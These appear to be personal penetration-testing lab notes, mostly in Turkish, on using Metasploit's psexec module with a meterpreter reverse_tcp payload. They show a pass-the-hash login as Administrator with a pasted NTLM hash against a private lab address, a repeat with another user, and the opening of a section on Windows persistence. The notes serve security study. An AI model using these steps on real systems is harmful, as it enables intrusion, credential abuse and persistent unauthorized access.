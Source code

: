 ![[Pasted image 20240311134812.png]]
### Bunları katdettik.

### exploit(multi/handler) > search psexec

![[Pasted image 20240311135011.png]]
## use 5

### set RHOST 10.0.2.5

### set payload windows/x64/meterpreter/reverse_tcp

![[Pasted image 20240311135322.png]]

### Bir önceki meterpreter session'u kill kapattık.


---
### hash'i kopyaladık
aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
### set SMBUSR Administrator
### SmbPass aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
![[Pasted image 20240311135722.png]]
![[Pasted image 20240311135743.png]]
### meterpreter shell'i tertemiz anamızın aksütü gibi helal credential's ile aldık.

## aynısını onur123 kullanıcısı ile de denedik başarılı oldu.

---

## Establishing Persistence On Windows
#persistence
### Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
## Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.

